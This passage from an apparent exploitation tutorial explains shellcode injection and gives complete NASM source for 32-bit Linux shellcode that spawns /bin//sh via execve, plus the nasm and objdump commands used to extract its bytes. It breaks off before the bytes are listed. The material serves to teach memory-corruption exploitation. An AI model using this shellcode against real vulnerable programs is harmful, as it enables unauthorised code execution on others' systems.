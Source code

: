 3. The program is exploited to **transfer execution flow** to the location where the shellcode was inserted.

We'll deal with each of the steps briefly:

> ### Crafting Shellcode

Crafting shellcode is in itself a big topic to cover here. I shall take it in brief. We will create a shellcode that spawns a shell. First create `shellcode.nasm` with the following code:

```nasm
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
```

[Here](/assets/files/Shellcode-Injection/shellcode.asm) is the link to the above mentioned code.

To compile it use `nasm`:

```sh
nasm -f elf shellcode.asm
```

Use objdump to get the shellcode bytes:

```sh
objdump -d -M intel shellcode.o
```

![Disassembly of shellcode](/assets/images/Shellcode-Injection/shellcode-dump.png)

Extracting the bytes gives us the shellcode:
